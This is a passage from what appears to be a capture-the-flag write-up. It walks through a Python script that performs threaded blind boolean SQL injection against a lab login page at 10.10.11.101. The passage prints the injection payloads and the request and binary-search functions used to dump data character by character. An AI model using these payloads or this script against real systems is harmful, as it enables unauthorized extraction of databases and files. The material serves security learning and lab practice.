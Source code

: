 Basically, it uses `get_data_length` to get the number of digits of the length of the value (this is useful to dump local files). With this number of digits, we create a list of character positions in order to dump each digit one by one using threads.

Function `get_data_length` is a bit simpler:

```python
def get_data_length(payload: str, n: int) -> Dict[str, str]:
    return {
        'uname': f"' or length(convert(length({payload}),char))={n};-- -",
        'password': 'asdf'
    }
```

It only returns the payload to check if the length of the length of a subquery is `n` (notice that the length of the length converted to string is just the number of digits of the desired length).

The core of the dumping process is `do_sqli`, which returns `False` if the authentication is wrong (query gaved an error) or `True` if authentication is correct (query was successful):

```python
url = 'http://10.10.11.101/administrative'

def do_sqli(data: Dict[str, str]) -> bool:
    return 'error' not in requests.post(url, data=data).text
```

The function that makes the requests using threads is `start_threads`:

```python
def start_threads(n: int, args: Tuple[List[str], str, int, int]):
    with ThreadPoolExecutor(max_workers=100) as pool:
        for i in range(n):
            pool.submit(get_content, *args, i)
```

Every thread is calling `get_content`, which does magic and obscure things:

```python
def get_content(data: List[str], payload: str, start: int, end: int, i: int):
    def checker(c: int) -> bool:
        return do_sqli(get_data_content(payload, i, c))

    ascii_value = binary_search(checker, start, end)

    data[i] = chr(ascii_value)
```

First it creates a `checker` function to check if a given ASCII value is correct or not (using `do_sqli` and `get_data_content`). This function `get_data_content` is pretty similar to `get_data_length`, it just returns the needed data to send the POST request:

```python
def get_data_content(payload: str, i: int, c: int) -> Dict[str, str]:
    return {
        'uname': f"' or ascii(substr({payload},{i + 1},1))<{c};-- -",
        'password': 'asdf'
    }
```
